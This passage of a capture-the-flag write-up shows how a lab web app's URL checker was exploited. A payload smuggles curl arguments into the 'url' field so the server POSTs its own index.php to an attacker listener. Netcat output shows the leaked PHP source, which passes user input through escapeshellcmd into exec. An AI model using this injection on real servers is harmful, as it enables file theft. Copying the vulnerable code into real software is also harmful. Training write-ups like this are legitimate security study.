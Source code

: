 | Username |
| -------- |
| aleks    |

## Foothold

Now to gain `foothold` on the box our man `mk0` read the `index.php` through the `Local File Inclusion (LFI)` which provided us the `source code` of the `application`.

```c
url=http%3A%2F%2F10.8.0.2+-H+"asdf;"+-d+"@/var/www/html/index.php"
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnkvp 80
listening on [any] 80 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 54230
POST / HTTP/1.1
Host: 10.8.0.2
User-Agent: curl/7.81.0
Accept: */*
asdf\:
Content-Length: 2961
Content-Type: application/x-www-form-urlencoded

<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>Is it down or just me?</title>    <link rel="stylesheet" href="style.css"></head><body>    <header>        <img src="/logo.png" alt="Logo">        <h2>Is it down or just me?</h2>    </header>    <div class="container"><?phpif ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {  echo '<h1>Is the port refused, or is it just you?</h1>        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>            <button type="submit">Is it refused?</button>        </form>';} else {  echo '<h1>Is that website down, or is it just you?</h1>        <form id="urlForm" action="index.php" method="POST">            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>            <button type="submit">Is it down?</button>        </form>';}if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {  $ip = trim($_POST['ip']);  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);  $port = trim($_POST['port']);  $port_int = intval($port);  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);  if ( $valid_ip && $valid_port ) {    $rc = 255; $output = '';    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");    exec($ec . " 2>&1",$output,$rc);    echo '<div class="output" id="outputSection">';    if ( $rc === 0 ) {      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';    } else {      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';    }  } else {    echo '<div class="output" id="outputSection">';    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';  }} elseif (isset($_POST['url'])) {  $url = trim($_POST['url']);  if ( preg_match('|^https?://|',$url) ) {    $rc = 255; $output = '';    $ec = escapeshellcmd("/usr/bin/curl -s $url");    exec($ec . " 2>&1",$output,$rc);    echo '<div class="output" id="outputSection">';    if ( $rc === 0 ) {      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';    } else {      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";    }  } else {    echo '<div class="output" id="outputSection">';    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';  }}?></div></div><footer>© 2024 isitdownorjustme LLC</footer></body></html>
```
